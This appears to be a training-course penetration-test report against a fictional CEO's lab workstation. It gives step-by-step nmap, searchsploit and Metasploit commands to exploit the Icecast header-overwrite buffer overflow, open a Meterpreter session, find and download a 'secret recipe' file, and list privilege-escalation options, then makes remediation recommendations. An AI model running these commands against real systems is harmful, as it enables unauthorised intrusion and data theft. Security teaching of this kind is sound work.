# 
 GoodSecurity Penetration Test Report

mark@GoodSecurity.com

10th April, 2022

## 1.	High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The goal of this test is to perform attacks similar to those of a hacker and attempt to infiltrate Hans’ computer to determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software, find a secret recipe file on Hans’ computer, and report the findings back to GoodCorp.
The internal penetration test found several alarming vulnerabilities on Hans’ computer: When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting one program with major vulnerabilities. The details of the attack are below.
## 2.	Findings

Machine IP: `192.168.0.20`
Hostname: `MSEDGEWIN10`
Vulnerability Exploited: `Icecast Header Overwrite`
Vulnerability Explanation: `This is "a buffer overflow in the header parsing of Icecast versions 2.0.1 and earlier, discovered by Luigi Auriemma. Sending 32 HTTP headers will cause a write one past the end of a pointer array. On win32 this happens to overwrite the saved instruction pointer, and on linux (depending on compiler, etc) this seems to generally overwrite nothing crucial (read not exploitable). This exploit uses ExitThread(), this will leave icecast thinking the thread is still in use, and the thread counter won't be decremented. This means for each time your payload exits, the counter will be left incremented, and eventually the threadpool limit will be maxed. So you can multihit, but only till you fill the threadpool."` Sorce: https://www.rapid7.com/db/modules/exploit/windows/http/icecast_header/
`As the CEO is running version 2.x of Icecast, his machine is vulnerable to this specific attack.`

Severity:
This vulnerability is a high risk vulnerability because an attacker can easily gain access to a shell prompt (as demonstrated below) and potentially utilise other exploits to escalate user privilege. 

Proof of Concept:

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit icecast

3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer: msfconsole

      
4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer: search icecast

   - Run the command to use the Icecast module:

     > Answer:use 0

5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer: set RHOST 192.168.0.20

6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer: run

   - Run the command that performs a search for the `secretfile` textfile on the target.
     > Answer: search -f `*secretfile*`.txt

7. You should now have a Meterpreter session open.

    - Run the command to performs a search for the `recipe` textfile on the target:
      > Answer: search -f *recipe*.txt
    
    - **Bonus**: Run the command that exfiltrates the `recipe` textfile:
      > Answer: download "c:\Users\IEUser\Documents\Drinks.recipe.txt"


8. You can also use Meterpreter's local exploit suggester to find possible exploits.
`run post/multi/recon/local_exploit_suggester`

    

  `The CEO's computer is also potentially vulnerable to an Ikeext exploit and ms16_075_reflection exploit, with both allowing the attacker to upgrade their user privilege.`

### Bonus
  
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: Keeping the existing meterpreter session running (using background), run: search enum_user.


run: use 991



B. Open a Meterpreter shell and gather system information for the target.

  > Answer: Computer name:    MSEDGEWIN10
              OS:               Windows 10 (10.0 Build 17763)
            Architecture:     x64
            System Language:  en_US
            Domain:           WORKGROUP
            Logged On Users:  1
            Metrepreter:      x86/windows

C. Run the command that displays the target's computer system information:

   > Answer: `sysinfo`
   

3.	Recommendations

What recommendations would you give to GoodCorp?

 For urgent action:
  1. Uninstall Icecast from the CEO's computer. Whilst upgrading to the latest version should mitigate the vulnerability, the application is not an approved application for use on company computers, thus it should be removed.
  2. Run a session with the senior executive management team to ensure that they all understand the importance of abiding by the company's IT policy framework and the potential for exposure by installing applications not approved by the IT department.
  3. Patch the CEO's computer to remove the Ikeext and ms16_075_reflection vulnerabilities.

Strongly recommended actions:
  1. Run a training program for all employees on IT security issues and how to ensure that they reduce the chances of being successfully hacked.
  2. Implement a policy to prevent all employees from having the ability to install applications on their work computers.
  3. Expand the scope of the pentesting engagement to include all senior management.

